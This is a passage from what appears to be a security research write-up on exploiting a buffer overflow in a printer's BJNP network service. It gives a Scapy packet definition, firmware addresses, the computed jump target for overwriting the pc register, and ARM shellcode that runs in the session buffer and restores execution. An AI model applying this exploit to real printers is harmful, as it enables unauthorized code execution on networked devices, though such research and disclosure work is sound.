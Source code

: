 ```python
    }

    BJNP_ERROR_ENUM = {
        0x8200: "Invalid header",
        0x8300: "Session error",
        0x8502: "Session already exists",
    }

    fields_desc = [
        StrFixedLenField("magic", default=b"MFNP", length=4),
        BitEnumField("device", default=0, size=1, enum=BJNP_DEVICE_ENUM),
        BitEnumField("cmd", default=0, size=15, enum=BJNP_COMMAND_ENUM),
        EnumField("err_no", default=0, enum=BJNP_ERROR_ENUM, fmt="!H"),
        ShortField("seq_no", default=0),
        ShortField("sess_id", default=0),
        FieldLenField("body_len", default=None, length_of="body", fmt="!I"),
        StrLenField("body", b"", length_from=lambda pkt: pkt.body_len),
    ]
```

For our version of the firmware, the BJNP structure is located at `0x46F2B294` and the session data sent by the client is stored at offset `0x24`. We also want our payload to run in thumb mode to reduce its size, which means we need to jump to an odd address. All in all, we can simply overwrite the `pc` register with
`0x46F2B294+0x24+1=0x46F2B2B9` in our original payload to reach the BJNP session buffer.

## Initial PoC

Quick recap of the exploitation strategy:

- Start a BJNP session and store our exploit in the session data,
- Exploit the buffer overflow to jump in the session buffer,
- Close the BJNP session to remove our exploit from memory once it ran.

To demonstrate this, we can jump to the function which disables the energy save mode on the printer (and wakes the screen up, which is useful to check if it actually worked). In our firmware, it is located at `0x413054D8`, and we simply need to set the `r0` register to `0` before calling it:

```asm
mov r0, #0
mov r12, #0x54D8
movt r12, #0x4130
blx r12
```

To avoid the printer rebooting, we can also fix the `r0` and `lr` registers to
restore the original flow:

```asm
mov r0, #0
mov r1, #0xEBA0
movt r1, #0x40DE
mov lr, r1
bx lr
```

